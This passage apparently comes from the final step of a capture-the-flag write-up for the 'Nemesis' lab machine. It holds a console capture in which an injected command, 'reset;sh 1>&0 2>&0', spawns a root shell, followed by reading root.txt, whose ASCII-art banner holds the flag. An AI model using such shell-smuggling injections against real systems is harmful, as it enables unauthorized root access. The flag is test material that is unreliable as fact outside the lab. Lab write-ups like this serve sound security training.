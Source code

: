```console
Command to execute: reset;sh 1>&0 2>&0
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt

             ,----------------,              ,---------,
        ,-----------------------,          ,"        ,"|
      ,"                      ,"|        ,"        ,"  |
     +-----------------------+  |      ,"        ,"    |
     |  .-----------------.  |  |     +---------+      |
     |  |                 |  |  |     | -==----'|      |
     |  |  I LOVE Linux!  |  |  |     |         |      |
     |  |                 |  |  |/----|`---=    |      |
     |  | root@nemesis:~# |  |  |   ,/|==== ooo |      ;
     |  |                 |  |  |  // |(((( [33]|    ,"
     |  `-----------------'  |," .;'| |((((     |  ,"
     +-----------------------+  ;;  | |         |,"    
        /_)______________(_/  //'   | +---------+
   ___________________________/___  `,
  /  oooooooooooooooo  .o.  oooo /,   \,"-----------
 / ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"
/_==__==========__==_ooo__ooo=_/'   /___________,"
`-----------------------------'

FLAG{CTFs_ARE_AW3S0M3}

Congratulations for getting root on Nemesis! We hope you enjoyed this CTF!

Share this Flag on Twitter (@infosecarticles). Cheers!

Follow our blog at https://www.infosecarticles.com

Made by CyberBot and 0xMadhav!
```


